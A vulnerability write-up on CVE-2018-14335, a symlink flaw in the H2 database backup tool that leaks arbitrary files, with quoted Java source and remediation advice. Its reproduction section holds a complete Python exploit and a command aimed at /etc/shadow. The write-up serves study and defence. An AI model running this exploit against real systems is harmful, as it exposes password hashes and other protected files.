



# CVE-2018-14335 CWE-59/276 H2DB information leak

## Vulnerability Background
- **Symlink**: Symlink is a file used in Linux and Unix systems to create "shortcuts" to other files or directories. When attackers can control the path of the backup target file, they can create a symbolic link pointing to sensitive files in the system (such as `/etc/passwd` or `/etc/shadow`) instead of the actual database files.
- **Handling of backup functions**: H2 database backup tools allow users to back up database contents to a specified file path. During this process, if the path is a symbolic link pointing to a sensitive file, the backup will include the symbolic link in the backup file.
- **Permission Issues**: Generally, database users and system users should only have read permissions for their database files. However, in this vulnerability, attackers can create symbolic links to point target files to files in the system that they should not have accessed. Because backup operations lack sufficient permission checks, backup files may contain sensitive files that attackers do not have permission to access.

## Vulnerability Mechanism
The principle behind this vulnerability involves the **backup function** of H2 databases, and how, in cases of **insufficient permission verification**, attackers can use **symlink** to achieve **information leakage**. The Backup class allows attackers with existing shell access to submit a POST request that creates backup copies of any files readable by the h2 database. Created backup files can be read by attackers, leading to information leaks of protected files.

During backup, the H2 database does not check whether the destination path has a symbolic link, so attackers can specify a symbolic link to a sensitive file as the backup file path. At this point, the backup tool will include the files pointed to by the symbolic link in the backup files. Ultimately, attackers can back up files to obtain sensitive information they do not have permission to access.

## Vulnerability Location
1. On line **108** of the **src\main\org\h2\tools\Backup.java** file, `process` function:

- On line **112**, the code has two modes to retrieve the list of files to be backed up: when the `db` parameter is "empty string," `FileUtils.newDirectoryStream` is used; Otherwise, the `FileLister.getDatabaseFiles` is called. According to the exp content, no db parameters are passed, so the call is to `FileLister.getDatabaseFiles` get the database file list.
- Finally, at line **131**, before processing the file, the code attempts to compute a `base` path to avoid reading files outside the directory, then calls `FileUtils.toRealPath` to parse the true path of the file to be backed up, and finally processes the file.

```java
    private void process(String zipFileName, String directory, String db,
            boolean quiet) throws SQLException {
        List<String> list;
        boolean allFiles = db != null && db.length() == 0;
        if (allFiles) {
            list = FileUtils.newDirectoryStream(directory);
        } else {
            list = FileLister.getDatabaseFiles(directory, db, true);
        }
        if (list.isEmpty()) {
            if (!quiet) {
                printNoDatabaseFilesFound(directory, db);
            }
            return;
        }
        if (!quiet) {
            FileLister.tryUnlockDatabase(list, "backup");
        }
        zipFileName = FileUtils.toRealPath(zipFileName);
        FileUtils.delete(zipFileName);
        OutputStream fileOut = null;
        try {
            fileOut = FileUtils.newOutputStream(zipFileName, false);
            try (ZipOutputStream zipOut = new ZipOutputStream(fileOut)) {
                String base = "";
                for (String fileName : list) {
                    if (allFiles ||
                            fileName.endsWith(Constants.SUFFIX_PAGE_FILE) ||
                            fileName.endsWith(Constants.SUFFIX_MV_FILE)) {
                        base = FileUtils.getParent(fileName);
                        break;
                    }
                }
                for (String fileName : list) {
                    String f = FileUtils.toRealPath(fileName);
                    if (!f.startsWith(base)) {
                        DbException.throwInternalError(f + " does not start with " + base);
                    }
                    if (f.endsWith(zipFileName)) {
                        continue;
                    }
                    if (FileUtils.isDirectory(fileName)) {
                        continue;
                    }
                    f = f.substring(base.length());
                    f = BackupCommand.correctFileName(f);
                    ZipEntry entry = new ZipEntry(f);
                    zipOut.putNextEntry(entry);
                    InputStream in = null;
                    try {
                        in = FileUtils.newInputStream(fileName);
                        IOUtils.copyAndCloseInput(in, zipOut);
                    } catch (FileNotFoundException e) {
                        // the file could have been deleted in the meantime
                        // ignore this (in this case an empty file is created)
                    } finally {
                        IOUtils.closeSilently(in);
                    }
                    zipOut.closeEntry();
                    if (!quiet) {
                        out.println("Processed: " + fileName);
                    }
                }
            }
        } catch (IOException e) {
            throw DbException.convertIOException(e, zipFileName);
        } finally {
            IOUtils.closeSilently(fileOut);
        }
    }
```

2. **Get the list of files you need to back up**

(1) In the **src\main\org\h2\store\FileLister.java** document, line **87**, `getDatabaseFiles` method. Use `FileUtils.toRealPath(dir + "/" + db)` to parse the path, then use `.endsWith` method to match whether the file extension is `Constants.SUFFIX_LOB_FILE`.

```java
public static ArrayList<String> getDatabaseFiles(String dir, String db, boolean all) {
    ArrayList<String> files = new ArrayList<>();
    String start = db == null ? null : (FileUtils.toRealPath(dir + "/" + db) + ".");
    for (String f : FileUtils.newDirectoryStream(dir)) {
        boolean ok = false;
        if (f.endsWith(Constants.SUFFIX_LOBS_DIRECTORY)) {
            if (start == null || f.startsWith(start)) {
                files.addAll(getDatabaseFiles(f, null, all));
                ok = true;
            }
        } else if (f.endsWith(Constants.SUFFIX_LOB_FILE)) {
            ok = true;
        } else if (f.endsWith(Constants.SUFFIX_PAGE_FILE)) {
            ok = true;
        } else if (f.endsWith(Constants.SUFFIX_MV_FILE)) {
            ok = true;
        } else if (all) {
            if (f.endsWith(Constants.SUFFIX_LOCK_FILE)) {
                ok = true;
            } else if (f.endsWith(Constants.SUFFIX_TEMP_FILE)) {
                ok = true;
            } else if (f.endsWith(Constants.SUFFIX_TRACE_FILE)) {
                ok = true;
            }
        }
        if (ok) {
            if (db == null || f.startsWith(start)) {
                files.add(f);
            }
        }
    }
    return files;
}
```

(2) In line **434** of the **h2\src\main\org\h2\engine\Constants.java** document, a series of definitions for distinguishing H2 is defined The suffix constants of different file types in the database indicate that H2's backup logic iterates through all files with extensions such as `.db`, `.trace.db`, `.h2.db` in the directory, and then treats them as "database files" for reading and packaging.

```java
    /**
     * The file name suffix of large object files.
     */
    public static final String SUFFIX_LOB_FILE = ".lob.db";

    /***/
    public static final String SUFFIX_LOBS_DIRECTORY = ".lobs.db";

    /**
     * The file name suffix of file lock files that are used to make sure a
     * database is open by only one process at any time.
     */
    public static final String SUFFIX_LOCK_FILE = ".lock.db";

    /**
     * The file name suffix of a H2 version 1.1 database file.
     */
    public static final String SUFFIX_OLD_DATABASE_FILE = ".data.db";

    /**
     * The file name suffix of page files.
     */
    public static final String SUFFIX_PAGE_FILE = ".h2.db";
    /**
     * The file name suffix of a MVStore file.
     */
    public static final String SUFFIX_MV_FILE = ".mv.db";

    /**
     * The file name suffix of a new MVStore file, used when compacting a store.
     */
    public static final String SUFFIX_MV_STORE_NEW_FILE = ".newFile";

    /**
     * The file name suffix of a temporary MVStore file, used when compacting a
     * store.
     */
    public static final String SUFFIX_MV_STORE_TEMP_FILE = ".tempFile";

    /**
     * The file name suffix of temporary files.
     */
    public static final String SUFFIX_TEMP_FILE = ".temp.db";

    /**
     * The file name suffix of trace files.
     */
    public static final String SUFFIX_TRACE_FILE = ".trace.db";

```

In summary, when retrieving files to be backed up, there is no strict checks for "whether it is a symbolic link" or "whether it is an actual database file," nor is permission determination made. It simply checks file extensions, and if the file extension is met, it is added to the file list to be backed up.

3. **Confirm base and process files to be backed up**

(1) Return to line **132** of the **src\main\org\h2\tools\Backup.java** file, where you calculate a `base` path, If a file that meets the criteria (with the extension `SUFFIX_PAGE_FILE` or `SUFFIX_MV_FILE`) can be found, `base` set as the parent directory of that file; But if there are no files that meet the criteria, the `base` will remain as an empty string. Therefore, all file paths pass `startsWith("")` checks, effectively bypassing directory restrictions.

```java
try {
    fileOut = FileUtils.newOutputStream(zipFileName, false);
    try (ZipOutputStream zipOut = new ZipOutputStream(fileOut)) {
        String base = "";
        for (String fileName : list) {
            if (allFiles ||
                    fileName.endsWith(Constants.SUFFIX_PAGE_FILE) ||
                    fileName.endsWith(Constants.SUFFIX_MV_FILE)) {
                base = FileUtils.getParent(fileName);
                break;
            }
        }
        for (String fileName : list) {
            String f = FileUtils.toRealPath(fileName);
            if (!f.startsWith(base)) {
                DbException.throwInternalError(f + " does not start with " + base);
            }
            if (f.endsWith(zipFileName)) {
                continue;
            }
            if (FileUtils.isDirectory(fileName)) {
                continue;
            }
            f = f.substring(base.length());
            f = BackupCommand.correctFileName(f);
            ZipEntry entry = new ZipEntry(f);
            zipOut.putNextEntry(entry);
            InputStream in = null;
            try {
                in = FileUtils.newInputStream(fileName);
                IOUtils.copyAndCloseInput(in, zipOut);
            } catch (FileNotFoundException e) {
                // the file could have been deleted in the meantime
                // ignore this (in this case an empty file is created)
            } finally {
                IOUtils.closeSilently(in);
            }
            zipOut.closeEntry();
            if (!quiet) {
                out.println("Processed: " + fileName);
            }
        }
    }
}
```

(2) Then call `FileUtils.toRealPath` method to parse the real path of the file to be backed up and locate it to ** h2\src\main\org\h2\store\fs\FileUtils.java ** Document No. **76**, This does not check the parsed file paths. That is, when the `fileName` is a symbolic link, the calling `FileUtils.toRealPath` parses the true path the link points to without blocking the read operation.

```java
    /**
     * Get the canonical file or directory name. This method is similar to Java
     * 7 <code>java.nio.file.Path.toRealPath</code>.
     *
     * @param fileName the file name
     * @return the normalized file name
     */
    public static String toRealPath(String fileName) {
        return FilePath.get(fileName).toRealPath().toString();
    }
```

(3) The next loop ensures that all files to be backed up are in the `base` directory, avoiding reading files outside the directory. But in the exp file, a `symlink.trace.db` is created that neither matches `SUFFIX_PAGE_FILE` nor `SUFFIX_MV_FILE`, causing the `base` to be empty, which further causes any string to satisfy the `f.startsWith("")`, effectively rendering the check ineffective. This leads to failure to check symbolic links pointing to sensitive files outside the directory. Attackers can create symbolic links to sensitive files (such as `/etc/shadow`) and use `Backup` tools to read these files and package them into ZIP files.

## Remediation

Upgrade from H2 1.4.197 to a later maintained release. The backup implementation must resolve and validate each candidate file before adding it to the archive and reject symbolic links or canonical paths that escape the selected database directory.

As a temporary mitigation, do not expose the H2 Console or backup tooling to untrusted users, run the database under a dedicated low-privilege account, deny that account read access to operating-system secrets, and prevent creation of symbolic links in directories from which database backups are generated. Existing backup archives should be inspected before distribution because they may already contain files outside the intended database path.

## Affected Versions
h2DB <= 1.4.197

## Environment Setup
Start the Docker environment, h2DB version is 1.4.197



## Vulnerability Reproduction
1. Execute the EXP file

```bash
python CVE-2018-14335-EXP.py -H 127.0.0.1:8090 -D /tmp/ -F /etc/shadow
```



2. View `/tmp/symlink.trace.db` file to see the contents of `/etc/shadow` file. This file is used to store system users' passwords and related authentication information. Each line represents an entry for a user, and fields are separated by colons (`:`).

```bash
cat /tmp/symlink.trace.db
```



## PoC Analysis

```python
# !/usr/bin/python

import requests
import argparse
import os
import random

# Clean up symbol link files
def cleanup(wdir):
    # cmd = "rm {}symlink.trace.db".format(wdir)
    # os.system(cmd)
    # print("[INFO] Cleaned up symlink file.")
    pass


def create_symlink(file, wdir):
    # Create symbolic links that map object files (such as /etc/shadow) to a specified directory
    # This allows attackers to access files they should not have access through the backup function.
    cmd = "ln -s {0} {1}symlink.trace.db".format(file, wdir)
    os.system(cmd)
    print("[INFO] Created symlink for file: {}".format(file))


def trigger_symlink(host, wdir):
    # Triggering backup operations and leaking sensitive files using symbolic links.
    # A random output file name is generated to ensure the file name is not duplicated each time.
    outputName = str(random.randint(1000, 10000)) + ".zip"
    # Send GET requests to initialize the connection and obtain the server's response and its cookies
    url = 'http://{}'.format(host)
    print("[INFO] Sending GET request to {}".format(url))
    try:
        r = requests.get(url)
        
        # Check if the connection is successful
        if r.status_code != 200:
            print("[ERROR] Failed to connect to target URL. Status code: {}".format(r.status_code))
            return
        print("[INFO] Successfully connected to the target host.")

        # Extracting path information from responses usually uses similar URL formats
        path = r.text.split('href = ')[1].split(';')[0].replace("'", "").replace('login.jsp', 'tools.do')
        url = '{}/{}'.format(url, path)

        # Construct the request load containing backup operations
        payload = {
            "tool": "Backup",
            "args": "-file," + wdir + outputName + ",-dir," + wdir
        }

        print("[INFO] Triggering backup with payload: {}".format(payload))
        # Sending a POST request triggers the backup operation
        response = requests.post(url, data=payload)
         # Check whether the backup request was successful
        if response.status_code == 200:
            print("[INFO] Backup triggered successfully, file is zipped in: {}".format(wdir + outputName))
        else:
            print("[ERROR] Failed to trigger backup. Status code: {}".format(response.status_code))
    except Exception as e:
        print("[ERROR] An error occurred while sending requests: {}".format(str(e)))


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    required = parser.add_argument_group('required arguments')
    required.add_argument("-H",
                          "--host",
                          metavar='127.0.0.1:8082',
                          help="Target host",
                          required=True)
    required.add_argument("-D",
                          "--dir",
                          metavar="/tmp/",
                          default="/tmp/",
                          help="Writable directory")
    required.add_argument("-F",
                          "--file",
                          metavar="/etc/shadow",
                          default="/etc/shadow",
                          help="Desired file to read")
    args = parser.parse_args()

    print("[INFO] Starting exploit for target host: {}".format(args.host))
    print("[INFO] Writable directory: {}".format(args.dir))
    print("[INFO] Target file to read: {}".format(args.file))

    # Create symbolic links that point the target file to a specified writable directory
    create_symlink(args.file, args.dir)

    # Triggers the backup operation to read the contents of the target file
    trigger_symlink(args.host, args.dir)

    # After finishing, clean up the symbol link files (if needed)
    cleanup(args.dir)
    print("[INFO] Exploit execution completed.")
```

## References
[An issue was discovered in H2 1.4.197. Insecure handling... · CVE-2018-14335 · GitHub Advisory Database](https://github.com/advisories/GHSA-wm64-883p-84j3)

[NVD - CVE-2018-14335 --- NVD - CVE-2018-14335](https://nvd.nist.gov/vuln/detail/CVE-2018-14335)

[H2 Database 1.4.197 - Information Disclosure - Linux webapps Exploit](https://www.exploit-db.com/exploits/45105)
